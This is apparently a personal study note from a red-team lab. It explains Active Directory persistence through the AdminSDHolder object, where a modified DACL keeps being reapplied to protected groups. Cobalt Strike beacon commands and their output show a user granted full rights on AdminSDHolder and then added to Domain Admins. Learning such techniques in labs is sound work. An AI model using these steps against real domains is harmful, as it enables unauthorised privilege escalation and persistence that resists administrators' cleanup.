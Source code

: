 ```yaml
---
creation date: September 26th 2022
last modified date: September 26th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[AdminSDHolder]]  
___

## Description:  

The **AdminSDHolder** is a DACL template used to protect sensitive principals from modification.

The AdminSDHolder itself is not protected so if we modify the DACL on it, those changes will be replicated to the subsequent objects. So even if an admin see's a rogue DACL on group such as the DA's and removes it, it will just be reapplied again.

```
beacon> getuid
[*] You are DEV\nlamb

beacon> powershell Add-DomainObjectAcl -TargetIdentity "CN=AdminSDHolder,CN=System,DC=dev,DC=cyberbotic,DC=io" -PrincipalIdentity bfarmer -Rights All

```

Once this propagates, the principal will have full control over the aforementioned sensitive principals.

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> run net group "Domain Admins" /domain
The request will be processed at a domain controller for domain dev.cyberbotic.io.

Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            nlamb                    
The command completed successfully.

beacon> run net group "Domain Admins" bfarmer /domain /add
The request will be processed at a domain controller for domain dev.cyberbotic.io.

The command completed successfully.

beacon> run net group "Domain Admins" /domain
The request will be processed at a domain controller for domain dev.cyberbotic.io.

Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            bfarmer                  nlamb                    
The command completed successfully.
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 26th 2022 (12:27 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>

